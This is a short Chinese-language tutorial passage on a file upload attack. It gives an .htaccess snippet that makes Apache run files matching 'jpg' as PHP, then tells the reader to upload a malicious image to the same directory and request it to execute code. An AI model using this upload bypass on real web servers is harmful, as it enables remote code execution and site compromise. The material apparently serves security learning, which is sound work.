 ## 上传攻击
上传.htaccess到网站里，.htaccess 内容是
```xml
<FilesMatch "jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
再上传恶意的jpg到.htaccess相同目录里，访问图片即可获取执行脚本。
![image-20240128183300450](07.%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20240128183300450.png)
![image-20240128183306560](07.%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20240128183306560.png)
当图片上传成功之后，即使格式是jpg的，也一样会被当成php脚本执行